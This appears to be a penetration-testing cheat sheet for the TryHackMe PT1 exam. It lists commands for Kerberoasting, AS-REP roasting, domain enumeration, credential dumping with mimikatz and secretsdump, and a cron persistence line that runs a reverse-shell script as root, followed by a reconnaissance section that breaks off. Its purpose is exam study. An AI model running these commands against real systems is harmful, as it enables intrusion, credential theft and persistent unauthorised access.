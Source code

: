 # Kerberoasting
GetUserSPNs.py domain/user:pass -dc-ip x.x.x.x

# AS-REP Roasting
GetNPUsers.py domain/ -usersfile users.txt -no-pass

# Windows Enumeration
net user /domain
net group \"Domain Admins\" /domain

# Windows Credential Dumping
mimikatz
secretsdump.py -just-dc-user domain/user:pass@dc-ip

# Linux Persistence
echo \"* * * * * root /tmp/rev.sh\" >> /etc/crontab

# Post-Exploitation Recon
whoami
hostname
ipconfig /all

---

# PT1 Exam Cheatsheet & Checklist

This section is a quick-access guide for the TryHackMe Junior Penetration Tester (PT1) exam. Use it to review key tools, commands, and strategies for each exam domain. Good luck!

## Reconnaissance & Enumeration

- **Passive Recon**: 
  - `theHarvester`, `whois`, `crt.sh`, `Shodan`, `Censys`
- **Active Recon**:
  - `nmap -sC -sV -A -T4 target`  # Service/version detection, OS detection
  - `rustscan -a target -- -sV -O`  # Fast port scan
  - `dig domain.com`, `nslookup domain.com`, `host domain.com`
  - **Banner Grabbing**: `nc -nv domain.com 80`, `telnet domain.com 80`
  - **DNS Zone Transfer**: `dig axfr @ns1.domain.com domain.com`
  - **Subnetting**: Know how to calculate IP ranges (e.g., 192.168.1.0/24)

## Web Application Testing
